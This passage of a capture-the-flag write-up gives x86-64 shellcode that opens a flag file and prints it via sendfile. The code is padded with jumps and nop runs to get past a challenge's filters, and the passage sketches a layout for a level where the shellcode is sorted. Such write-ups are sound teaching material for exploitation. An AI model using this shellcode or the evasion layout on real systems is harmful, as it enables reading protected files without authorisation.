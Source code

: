 ```nasm
.global _start

_start:
    call pwn
    .string "f"
    .byte 0
    nop
    nop
    .rept 10
    nop
    .endr
pwn:
    ; open(flag, 0)
    mov rdi, [rsp]
    xor rsi, rsi
    jmp one
    nop
    .rept 10
    nop
    .endr
one:
    xor eax, eax
    mov al, 2
    syscall
    jmp two
    nop
    nop
    .rept 10
    nop
    .endr

two:
    ; sendfile(1, rax, 0, 0x100)
    xor edi, edi
    inc edi
    mov rsi, rax
    jmp three
    nop
    .rept 10
    nop
    .endr
three:
    xor edx, edx
    mov r10w, 0x100
    jmp four
    nop
    .rept 10
    nop
    .endr
four:
    xor eax, eax
    mov al, 40
    syscall
```
# level 10
- shellcode will be treated as an array of 8 byte integer and sorted. this can be solved with either a very small shellcode (18 byte shellcode from challenge 8 works here). but we can also implement a very general strategy similar to level9:
```nasm
instructions + jump + nop_padding + byte01 = 8 bytes
                 |
 -----------------
```